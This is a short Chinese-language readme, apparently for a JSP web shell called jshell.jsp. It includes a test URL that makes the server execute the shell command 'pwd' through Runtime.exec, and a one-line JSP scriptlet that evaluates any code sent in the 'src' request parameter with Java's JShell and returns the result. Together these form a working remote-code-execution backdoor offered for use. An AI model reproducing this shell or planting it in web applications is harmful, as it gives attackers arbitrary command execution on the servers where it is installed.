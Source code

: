 readme

![图片](http://p2j.cn/uploads/image/20190910/20190910185302_297.png)

测试用例：http://localhost:8080/modules/jshell.jsp?src=new%20java.io.BufferedReader(new%20java.io.InputStreamReader(Runtime.getRuntime().exec(%22pwd%22).getInputStream())).readLine()

如果强迫症想撸掉多余的输出：


<%=jdk.jshell.JShell.builder().build().eval(request.getParameter("src")).get(0).value().replaceAll("^\"", "").replaceAll("\"$", "")%>
